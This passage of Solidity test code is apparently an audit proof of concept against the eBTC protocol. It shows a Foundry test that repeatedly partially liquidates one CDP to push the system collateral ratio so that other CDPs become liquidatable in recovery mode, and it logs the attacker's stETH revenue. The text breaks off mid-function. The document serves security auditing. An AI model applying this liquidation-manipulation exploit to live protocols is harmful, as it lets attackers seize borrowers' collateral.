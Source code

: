 ```
        console.log("CDP size: ", sortedCdps.getSize());

        uint256 _stETHBalance = collateral.balanceOf(user);
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

```